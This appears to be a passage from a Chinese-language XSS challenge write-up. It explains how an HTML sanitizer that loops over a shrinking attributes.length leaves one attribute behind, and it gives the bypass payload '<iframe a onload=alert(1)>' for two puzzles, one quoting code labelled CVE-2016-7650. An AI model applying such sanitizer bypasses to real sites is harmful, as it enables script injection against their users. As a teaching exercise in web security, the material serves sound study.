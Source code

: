 例

输入`<iframe onload=alert(1)>`

输出`<iframe></iframe>`

循环使用了`attributes.length`作为判断条件，这个值是某个元素中的属性数目，是动态变化的

比如开始是2，一轮循环删了一个，剩1，此时i=1，n.attributes.length=1，循环结束，剩一个没删

所以在onload前随便添加一个属性就完事了

Payload

```
<iframe a onload=alert(1)>
```

Output

```
<iframe onload="alert(1)"></iframe>
```



## Fruit 2

```javascript
// CVE-2016-7650
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```

和上一题差不多

Payload

```
<iframe a onload=alert(1)>
```

Output

```
<iframe onload="alert(1)"></iframe>
```


